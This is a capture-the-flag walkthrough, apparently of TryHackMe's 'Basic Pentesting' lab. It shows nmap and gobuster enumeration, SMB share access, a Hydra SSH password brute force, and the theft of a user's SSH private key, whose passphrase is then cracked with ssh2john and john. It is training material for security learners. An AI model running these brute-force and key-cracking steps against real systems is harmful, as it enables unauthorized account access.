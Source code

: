 # Basic Pentesting

I can use nmap for this

```
nmap $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 03:51 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

We've found quite a bunch of open ports. Let's try them

### HTTP

If we go to the browser and use our target IP with port 80, the screen greet us with

![](/images/thm/basic-pentesting/0.png)

It doesn't look like much but the HTML has an interesting comment that, maybe, points to a new endpoint?

```html
<html>
  <h1>Undergoing maintenance</h1>
  <h4>Please check back later</h4>
  <!-- Check our dev note section if you need to know what to work on. -->
</html>
```

Maybe a quick dir enumeration will give us something new. Let's launch `gobuster`

```
~# gobuster dir -u /usr/share/wordlists/dirb/common.txt -u $TIP

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.253.89
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/10/16 04:05:38 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2024/10/16 04:05:38 Finished
===============================================================
```

_Note:_ `/usr/share/wordlists/` is a directory that contains usefuls word lists, and comes with a Kali Linux installation.

And it found something! `/development` returned a 301 Moved Permanently status code. Just for fun, let's where the `Location` header points

```
~# curl $TIP/development -i

HTTP/1.1 301 Moved Permanently
Date: Wed, 16 Oct 2024 03:24:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://10.10.253.89/development/
Content-Length: 318
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.253.89/development/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.253.89 Port 80</address>
</body></html>
```

Nice. Let's go to `/development/` and see what is there

![](/images/thm/basic-pentesting/1.png)

We now know, as a bonus, that the web app is running Apache 2.4.18, in Ubuntu! There are two notes.
The first one tell us that

- There might be something like https://struts.apache.org/plugins/rest/ running, with version 2.5.12
- There is an SMB service running.

The second one reveals that the user J has a very weak password and points to /etc/shadow.

The thing running on port 8009 is AJP, which is a protocol optimized to work with Tomcat
and Apache.

```
~# nmap -p8009 -sV -sC $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 05:07 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00017s latency).

PORT STATE SERVICE VERSION
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
| ajp-methods:
|\_ Supported methods: GET HEAD POST OPTIONS
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Doesn't look useful at the moment. Let's go back and point our attention to the SMB client running in port 445.

```
~# smbclient -L $TIP
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:

    Sharename       Type      Comment
    ---------       ----      -------
    Anonymous       Disk
    IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

Reconnecting with SMB1 for workgroup listing.

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------
    WORKGROUP            BASIC2
```

We have two shares `Anonymous` and `IPC$`. Let's try to connect to the first one

```
~# smblcient //$TIP/Anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 18:31:20 2018
  ..                                  D        0  Thu Apr 19 18:13:06 2018
  staff.txt                           N      173  Thu Apr 19 18:29:55 2018

smb: \> more staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Now we know two possible usernames: Jan and Kay. Let's try to go through the ssh port and brute force Jan's password
with Hydra: `hydra -l jan -P /usr/share/wordlists/rockyou.txt $TIP ssh`

After some time we got it! Jan's password is `armando`. Time to logn as jan: `ssh jan@$TIP`. On success, if we go to
`/home`, we see that there are two users folders `jan` and `kay`. In Kay's home folders there is a mysterious file
called `pass.bak`, a BAK file is a backup file. Of course jan doesn´t have enough privileges to list the file's
contents: `cat pass.bak` results in permission denied. In fact

```
jan@basic2:/home/kay$ ls -l
total 4
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
```

Another quick `ls` in Kay's home dir reveals the `.ssh` dir. Now we can grab the private key and copy it to our machine.
If we try to SSH as kay: `ssh -i kay_priv_key.txt kay@$TIP`, we see that it's protected by a passprhase(don't forget to do
`sudo chmod 600 kay_priv_key` first). What can be done?

I was quite lost here. The [writeup](https://medium.com/@aycagl/basic-pentesting-walkthrough-tryhackme-f37a530bfce5) by
Ayça Gül saved me. We have the private key but the passphrase is missing. We are going to crack it with a the tools called
`ssh2john` and `john`. To find the first one we can do `locate ssh2john`, in my case it was in `/opt/john/ssh2john.py`.
It's used as `/opt/john/ssh2john.py kay_priv_key > decrypted.txt`. Now it's time to launch john

```
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt
```

And we got the passphrase!

```
---snip---
beeswax          (kay_priv_key)
1g 0:00:00:11 DONE (2024-10-17 04:00) 0.08561g/s 1227Kp/s 1227Kc/s 1227KC/s *7¡Vamos!
Session completed.
```

Now can login as kay, enter the passphrase and, finally, do `cat pass.bak` to get the last flag.

# References

- https://www.linuxfordevices.com/tutorials/linux/hydra-brute-force-ssh
